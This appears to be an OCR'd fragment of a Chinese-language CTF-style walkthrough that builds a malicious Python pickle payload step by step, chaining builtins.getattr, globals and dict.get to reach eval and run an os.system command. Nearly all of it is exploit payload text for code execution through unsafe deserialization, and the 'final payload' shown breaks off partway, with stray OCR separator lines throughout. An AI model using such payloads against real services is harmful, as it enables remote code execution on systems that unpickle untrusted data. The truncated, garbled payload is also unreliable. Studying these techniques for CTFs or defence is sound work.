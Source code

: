 ```text
S'__import__('os').system('pwd')'  
o.  
'''
```
补全`arg1`，从内层开始`(builtins.globals(), 'builtins')
```text
b'''((cbuiltins  
getattr

///////
(cbuiltins  
globals  
o  
S'builtins'  
/////// 
S'eval'  
o
S'__import__('os').system('pwd')'  
o.  
'''  
pickletools.dis(test)
```
最后是`builtins.getattr(builtins.dict, 'get')`
```
b'''((cbuiltins
getattr

(
///////
(cbuiltins
getattr

cbuiltins
dict

S'get'
o
///////
(cbuiltins
globals
o
S'builtins' 
o

S'eval' 
o

S'__import__('os').system('pwd')' 
o. 
'''
```
最终payload：
```text
b'''((cbuiltins  
getattr  
((cbuiltins  
getattr  
cbuiltins  
dict  
S'get'  
o(cbuiltins  
globals  
oS'builtins'  
oS'eval'  
```
